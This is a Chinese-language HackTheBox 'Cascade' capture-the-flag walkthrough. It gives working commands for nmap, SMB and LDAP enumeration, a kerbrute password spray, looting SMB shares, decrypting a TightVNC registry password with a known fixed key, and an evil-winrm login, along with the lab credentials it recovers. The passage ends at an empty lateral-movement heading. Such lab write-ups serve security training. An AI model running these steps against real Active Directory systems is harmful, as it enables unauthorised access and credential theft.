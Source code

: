 ```yaml
---
title: "HTB Cascade"
date: 2024-04-20T00:42:39+08:00
description: HackTheBox Cascade Walkthrough
math: false
tags: [
    "Windows",
    "Active Directory",
    "LDAP",
    "Kerberos",
    "SMB",
    ".NET",
    "Reverse Engineering",
    "TightVNC",
]
categories: [
    "HackTheBox"
]
draft: true
description: 'HackTheBox Cascade Walkthrough'
---
```


[![20240421144458](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240421144458.png)](https://app.hackthebox.com/machines/235)

## nmap 枚举

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.182
```

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-18 09:02:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

389, 636, 3268, 3269 端口是 LDAP 端口，这台主机大概率是一台域控主机。且通过 nmap 默认脚本可知域名为 cascade.local

## 尝试 smb 枚举

优先查看smb匿名登录权限

匿名登录smb，查看共享文件夹（Sharename）

```bash
smbclient -L 10.10.10.182
```

```txt
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.182 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

无法获取信息

## LDAP 枚举

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap>

```bash
# 简单的LDAP枚举
nmap -p 389 --script ldap-rootdse 10.10.10.182
```

```txt
...
dnsHostName: CASC-DC1.cascade.local
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
...
```

通过 [`windapsearch`](https://github.com/ropnop/go-windapsearch) 输出LDAP的所有属性

```bash
# 输出所有用户属性
./windapsearch --dc 10.10.10.182 --full -m users
```

```txt
...
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
cascadeLegacyPwd: clk0bjVldmE=
...
```

用户描述字段中似乎没有任何密码，因此我们可以开始检查其他用户属性。用户 r.thompson 的一个属性叫做 cascadeLegacyPwd ，其中包含一个 Base64 编码字符串。解码之后使用 kerbrute 测试，发现就是他的密码。

```bash
kerbrute passwordspray --dc 10.10.10.182 -d cascade.local r.thompson rY4n5eva
```

## 利用 r.thompson 的账户凭证

- 尝试powershell remoting，但是失败

```bash
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```

- 登录 smb

```bash
# 查看共享权限
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

```txt
[+] IP: 10.10.10.182:445   Status: Authenticated
        Disk               Permissions     Comment
        ----               -----------     -------
        ADMIN$             NO ACCESS       Remote Admin
        Audit$             NO ACCESS
        C$                 NO ACCESS       Default share
        Data               READ ONLY
        IPC$               NO ACCESS       Remote IPC
        NETLOGON           READ ONLY       Logon server share
        print$             READ ONLY       Printer Drivers
        SYSVOL             READ ONLY       Logon server share
```

```bash
# 登录
smbclient \\\\10.10.10.182\\Data -U r.thompson
```

```txt
smb: \IT\Email Archives\> get Meeting_Notes_June_2018.html
```

查看下载的html文件

```bash
cat Meeting_Notes_June_2018.html
```

```html
...
We will be using a temporary account to perform all tasks related to the network
migration and this account will be deleted at the end of 2018 once the migration
is complete. This will allow us to identify actions related to the migration in
security logs etc. Username is TempAdmin (password is the same as the normal
admin account password).
...
```

获得信息：TempAdmin账户的密码与默认管理员账户的密码相同

下载其他敏感文件

```txt
smb: \IT\Logs\Ark AD Recycle Bin\> get ArkAdRecycleBin.log
smb: \IT\Logs\DCs\> get dcdiag.log
```

ArkAdRecycleBin.log 包含了一个名为 ARK AD RECYCLE BIN MANAGER 的程序的文本日志。

```bash
cat ArkAdRecycleBin.log
```

```txt
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

日志告诉我们程序正在 ArkSvc 的上下文中运行，并且 TempAdmin 账户已被移动到回收站。

最后，Temp 包含了用户 r.thompson 和 s.smith 的文件夹。在 s.smith 的文件夹中可以找到 VNC Install.reg 文件。这似乎是 TightVNC 的注册表设置备份，一个桌面远程控制程序。

```txt
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
```

```bash
cat "VNC Install.reg"
```

```txt
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
...
```

## TightVNC 注册表密码解密

<https://github.com/frizb/PasswordDecrypts>

```bash
$> msfconsole

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
 => "sT333ve2"
```

获得 s.smith 的 TightVNC 密码：sT333ve2

## Get Shell

使用 `windapsearch` 可以 `s.smith` 账户具有远程管理的 `CN`

因此可以使用 `evil-winrm` 登录

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

在 `C:\Users\s.smith\Desktop` 下找到 `user.txt`

## Lateral Movement

## 横向移动
